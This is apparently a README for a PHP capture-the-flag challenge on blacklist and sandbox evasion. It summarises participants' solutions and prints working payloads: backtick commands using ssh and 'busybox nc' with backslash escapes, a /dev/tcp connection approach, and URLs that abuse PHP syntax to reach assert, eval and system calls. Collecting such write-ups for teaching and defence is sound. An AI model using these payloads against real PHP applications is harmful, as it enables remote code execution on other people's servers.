 ![Hall Of Fame](logo)
[logo]: hof.png
# URL
[l4w.pw/🤔/](http://l4w.pw/🤔/)

# Type
PHP CTF-style challenge.

How to construct command following the rules.

Trick to run weird command or abusing PHP syntax.

# Solution
This challenge came by when I was solving a PHP sandbox challenge which has limited characters/blacklist functions/...

I left backstick, to see amazing tricks from you guys.

All of them can be found at: [writeup](writeup)

There are serveral solutions:
### Run multiple commands which does following steps:
    * Create a temporary file containing chunks (by using: printf/echo/...)
    * Run the file, to connect localhost:8888 (using python or bash with /dev/tcp/...)
    * See nyan/orange/kaibro/pablo sol.
### Abusing ssh / busybox
It ... surprised me 
    * ```die(`ssh -v 0 -p 888\%0a8 2>&1`);```
    * ```die(`bus\yb\ox nc 0:888\8`);```
    * Using `ssh` and blackslash (See `huyphan` sol)
### PHP syntax abusing
By using bitwise `&`, we can make a string following the rule regexp `\w{4}`, then use `{` as a name of variable `${}`, also access array index `$array{index}`
    * `http://l4w.pw/%F0%9F%A4%94/?%E2%81%A3=$a=${_GE%d4%26_GE%7f};$a{0}($a{1});&0=assert&1=eval($_GET[2]);&2=echo%20123;`
    * Also see kad96/fa_boy/tsu solutions.
    * `http://l4w.pw/🤔/index.php?0=system&1=busybox nc 127.0.0.1 8888&%E2%81%A3=$b=_GE;$b{3}=T;$$b{0}($$b{1});` (From tiengiang, looks like he's the first one who found out `busybox` can be used...)
